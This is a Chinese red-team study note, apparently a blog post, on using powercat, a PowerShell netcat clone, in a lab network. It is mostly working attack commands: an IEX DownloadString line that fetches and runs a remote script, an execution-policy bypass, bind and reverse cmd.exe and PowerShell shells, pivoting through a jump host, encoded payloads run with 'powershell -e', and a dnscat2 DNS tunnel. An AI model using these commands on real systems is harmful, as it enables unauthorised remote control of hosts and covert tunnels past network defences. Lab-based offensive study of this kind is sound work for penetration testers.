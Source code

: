 ```yaml
---
title: 【内网学习笔记】8、powercat 的使用
date: 2021-06-01 15:51:03
id: 210601-155103
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-01_14-23-47.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 1、下载安装 powercat

powercat 可以视为 nc 的 powershell 版本，因此也可以和 nc 进行连接。

powercat 可在 github 进行下载，项目地址为：[https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)

下载下来 powercat.ps1 文件后，直接导入即可

```
 Import-Module .\powercat.ps1
```

如果提示未能加载指定模块，则可能是权限问题，可以参照之前写的 [【内网学习笔记】2、PowerShell](https://teamssix.com/year/210206-191859.html) 文章中的方法对其赋予权限，即在管理员模式下运行以下命令

```
Set-ExecutionPolicy Unrestricted
```

之后就可以导入 powercat 了，导入成功后，输入 powercat -h 可以看到帮助信息。

如果没有权限，也可以直接下载远程文件进行绕过。

```
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

不过由于 github 在国内可能会无法打开，因此可以使用 web 代理站点或者把 powercat.ps1 文件放到自己的服务器上进行下载。

## 2、powercat 的使用

powercat 命令参数

```
-l		监听模式
-p		指定监听端口
-e		指定启动进程的名称
-v		显示详情
-c		指定想要连接的 IP 地址
-ep		返回 powershell
-dns	使用 dns 通信
-g		生成 payload
-ge		生成经过编码的 payload，可以直接使用 powershell -e 执行该 payload
```

可以看到和 nc 的命令还是很相似的。

### 正向连接

Kali 上的 nc 连接到靶机

```
nc -v rhost rport
```

```
nc -v 172.16.214.21 4444
```

靶机开启监听，等待 Kali 连接

```
powercat -l -v -p lport -e cmd.exe
```

```
powercat -l -v -p 4444 -e cmd.exe
```

### 反向连接

Kali 上开启监听

```
nc -lvp 4444
```

靶机向 kali 发起连接

```
powercat -c rhost -p rport -e cmd.exe
```

```
powercat -c 172.16.214.46 -p 4444 -e cmd.exe
```

### 返回 powershell

攻击机上运行

```
powercat -l -v -p lport
```

```
powercat -l -v -p 4444
```

靶机上运行

```
powercat -c rhost -p rport -v -ep
```

```
powercat -c 172.16.214.21 -p 4444 -v -ep
```

### 作为跳板使用

测试环境为：

```
kali			172.16.214.47
windows7	172.16.214.2
windows10	172.16.214.21
```

将 win7 作为跳板机，让 kali 通过 win7 连接到 windows10

在 win10 中执行以下命令

```
powercat -l -v -p 4444 -e cmd.exe
```

在 win7 中执行以下命令

```
powercat -l -v -p 5555 -r tcp:172.16.214.21:4444
```

最后在 kali 下连接 win7

```
nc -v 172.16.214.2 5555
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-01_14-23-47.png)

### powercat 生成 payload

在攻击机上运行以下命令生成 shell.ps1 payload 文件

```
powercat -l -p 4444 -e cmd -g > shell.ps1
```

将 shell.ps1 文件拷贝到目标主机上后，执行 shell.ps1 文件

之后在攻击机上运行以下命令即可获得 shell

```
powercat -c rhost -p rport -v
```

```
powercat -c 172.16.214.21 -p 4444 -v 
```

反向连接也可以

在攻击机上生成 ps1 文件，并开启监听

```
powercat -c rhost -p rport -ep -g > shell.ps1
```

```
powercat -c 172.16.214.2 -p 4444 -ep -g > shell.ps1
```

```
powercat -l -p 4444 -v
```

之后在靶机上，运行 ps1 文件就会上线了，如果不想生成文件，也可以使用 -ge 生成经过编码的 payload

在攻击机上生成 payload，并开启监听

```
powercat -c 172.16.214.2 -p 4444 -ep -ge
```

```
powercat -l -p 4444 -v
```

在靶机上执行刚生成的 payload

```
powershell -e payload
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-01_15-35-24.png)

### 建立 dns 隧道连接

powercat 的 dns 隧道是基于 dnscat 设计的，因此在服务端需要使用 dnscat 连接。

在服务端上安装 dnscat ，以 kali 为例

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
```

命令运行完之后，执行以下命令开启服务端

```
ruby dnscat2.rb powercat -e open --no-cache
```

在靶机下，执行以下命令，建立 dns 隧道

```
powercat -c 172.16.214.47 -p 53 -dns powercat -e cmd.exe
```

此时，在 kali 上就能看到回连的会话了

```
sessions				#	查看所有会话
session -i 1 		#	选择指定的会话进行交互
```

不过实测，虽然能返回会话，但不能执行命令，暂不清楚原因是什么。

powercat 暂时就记录这些，其他的比如文件传输什么的就不记了，毕竟使用频率几乎为零，平时使用最多的可能还是拿它来反弹 shell，不过为什么不用 CS 或者 MSF 呢，不更香嘛。

> 参考链接：
>
> [https://blog.csdn.net/qq_32393893/article/details/108904697](https://blog.csdn.net/qq_32393893/article/details/108904697)
>
> [https://cloud.tencent.com/developer/article/1772183](https://cloud.tencent.com/developer/article/1772183)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
